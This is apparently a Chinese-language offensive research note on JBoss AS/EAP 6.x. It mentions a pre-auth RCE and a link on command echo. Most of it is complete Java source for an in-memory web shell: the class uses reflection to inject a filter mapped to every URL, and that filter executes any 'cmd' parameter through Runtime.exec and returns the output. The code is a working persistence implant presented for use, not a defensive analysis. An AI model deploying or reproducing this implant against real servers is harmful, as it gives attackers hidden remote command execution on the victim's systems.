


相关漏洞
---

### JBoss EAP/AS <= 6.* Pre-Auth RCE


利用研究
---

### 回显

- https://www.jianshu.com/p/d142294a9466

### 内存马

内嵌Tomcat





都是熟悉的面孔




#### Filter

测试版本：JBoss AS v6.1.0.Final

FilterInject6.java

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.deploy.FilterDef;
import org.apache.catalina.deploy.FilterMap;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;

public class FilterInject6 extends HttpServlet {
    static public class myfilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {

        }

    }

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        try {
            final String name = "filterDemo";
            ServletContext servletContext = req.getSession().getServletContext();
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            Filter evilFilter = new myfilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName(name);
            filterDef.setFilterClass(evilFilter.getClass().getName());
            standardContext.addFilterDef(filterDef);
            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern("/*");
            filterMap.setFilterName(name);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
            filterConfigs.put(name, filterConfig);
            resp.getWriter().write("inject success");
        } catch (NoSuchFieldException | NoSuchMethodException | IllegalAccessException | InstantiationException | InvocationTargetException e) {
            e.printStackTrace();
        }
    }
}
```


